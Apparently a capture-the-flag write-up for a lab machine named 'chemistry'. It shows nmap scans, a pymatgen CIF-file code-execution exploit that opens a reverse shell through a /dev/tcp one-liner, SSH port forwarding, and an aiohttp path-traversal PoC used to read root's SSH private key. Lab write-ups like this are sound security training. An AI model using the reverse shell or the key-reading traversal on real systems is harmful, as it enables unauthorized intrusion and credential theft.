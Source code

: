 # chemistry

## Nmap

```console
PORT     STATE  SERVICE REASON         VERSION
80/tcp   closed http    reset ttl 63
5000/tcp open   upnp?   syn-ack ttl 63
| fingerprint-strings: 
|   GetRequest: 
|     HTTP/1.1 200 OK
|     Server: Werkzeug/3.0.3 Python/3.9.5
|     Date: Fri, 25 Oct 2024 08:52:34 GMT
|     Content-Type: text/html; charset=utf-8
|     Content-Length: 719
|     Vary: Cookie
|     Connection: close
|     <!DOCTYPE html>
|     <html lang="en">
|     <head>
|     <meta charset="UTF-8">
|     <meta name="viewport" content="width=device-width, initial-scale=1.0">
|     <title>Chemistry - Home</title>
|     <link rel="stylesheet" href="/static/styles.css">
|     </head>
|     <body>
|     <div class="container">
|     class="title">Chemistry CIF Analyzer</h1>
|     <p>Welcome to the Chemistry CIF Analyzer. This tool allows you to upload a CIF (Crystallographic Information File) and analyze the structural data contained within.</p>
|     <div class="buttons">
|     <center><a href="/login" class="btn">Login</a>
|     href="/register" class="btn">Register</a></center>
|     </div>
|     </div>
|     </body>
|   RTSPRequest: 
|     <!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 4.01//EN"
|     "http://www.w3.org/TR/html4/strict.dtd">
|     <html>
|     <head>
|     <meta http-equiv="Content-Type" content="text/html;charset=utf-8">
|     <title>Error response</title>
|     </head>
|     <body>
|     <h1>Error response</h1>
|     <p>Error code: 400</p>
|     <p>Message: Bad request version ('RTSP/1.0').</p>
|     <p>Error code explanation: HTTPStatus.BAD_REQUEST - Bad request syntax or unsupported method.</p>
|     </body>
|_    </html>
```

## web

![web](./images/chemistry-cifs.png)

* cifs exploit.
  * As mentioned in the [POC](https://github.com/materialsproject/pymatgen/security/advisories/GHSA-vgv8-5cpj-qj2f)
  * utilise the same cif file but change the system command to the following.

    ``` code
    /bin/bash -c \'sh -i >& /dev/tcp/<IP>/<Port> 0>&1 \'
    ```

## User-own

![app-user](./images/chemistry-app-py.png)

![db](./images/chemistry-db-dump.png)

![sqlcrack](./images/chemistry-sql-passwd-crack.png)

## Priv esc

![services](./images/chemistry-services.png)

* Portforwarding the 8080 http service

```bash
ssh -l 9001:127.0.0.1:8080 rosa@IP
```

* Enumerating the service on 8080.

```console
PORT     STATE SERVICE REASON         VERSION
9001/tcp open  http    syn-ack ttl 64 aiohttp 3.9.1 (Python 3.9)
|_http-server-header: Python/3.9 aiohttp/3.9.1
| http-methods: 
|_  Supported Methods: GET HEAD
|_http-title: Site Monitoring
```

* aio exploit POC [here](https://github.com/z3rObyte/CVE-2024-23334-PoC/blob/main/exploit.sh) can help us read the id_rsa key of the root.
  * replace the /etc/passwd with /root/.ssh/id_rsa along with replacing static with assets.

![aio](./images/chemistry-aio-exploit.png)

* ssh locally as rosa and escalate to root

![root](./images/chemistry-root.png)
